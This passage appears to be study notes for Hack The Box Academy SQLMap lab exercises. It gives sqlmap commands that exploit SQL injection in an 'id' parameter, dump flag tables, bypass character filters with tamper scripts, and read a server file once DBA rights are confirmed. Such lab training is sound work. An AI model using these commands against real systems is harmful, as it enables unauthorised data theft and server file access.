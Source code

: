 ![sqlmap-unique-parameter-uid](/images/sqlmap-unique-parameter-uid.png)  

```
sqlmap -r case9.req --batch -p "id" --randomize="uid" -dbms MySQL -D testdb -T flag9 --dump --flush-session --no-cast
```  

>What's the contents of table flag10? (Case #10)
>Primitive protection - Detect and exploit SQLi vulnerability in POST parameter id

```
sqlmap -r case10.req --batch -p "id" --random-agent -dbms MySQL -D testdb -T flag10 --dump --flush-session --no-cast
```  

>What's the contents of table flag11? (Case #11)
>Case11 - Filtering of characters ```'<', '>'```
>Detect and exploit SQLi vulnerability in GET parameter `id`, bypass using [Tamper Scripts](https://academy.hackthebox.com/module/58/section/530).  

```
sqlmap -r case11.req --batch -p "id" --tamper=between -dbms MySQL -D testdb -T flag11 --dump --flush-session --no-cast
```  

>The most popular tamper scripts `between` is replacing all occurrences of greater than operator `(>)` with NOT BETWEEN 0 AND #, and the equals operator `(=)` with BETWEEN # AND #.
>This way, many primitive protection mechanisms (focused mostly on preventing XSS attacks) are easily bypassed, at least for SQLi purposes.  

>Burp Suite Certified Professional [Study notes on SQLMAP](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study#sqlmap)  
  
>[Questions - OS Exploitation](https://academy.hackthebox.com/module/58/section/697)  

> Try to use SQLMap to read the file `/var/www/html/flag.txt`.  
>Use SQLi vulnerability in GET parameter `id` to exploit the host OS.
>First check if is DBA permissions?  

```
sqlmap -r os-exploit.req --batch -p "id" --is-dba --flush-session
```  

>DBA = true. Read flag File on OS.  

```
sqlmap -r os-exploit.req --batch -p "id" --dbms MySQL --file-read="/var/www/html/flag.txt"

cat /home/kali/.local/share/sqlmap/output/83.136.248.28/files/_var_www_html_flag.txt
```  
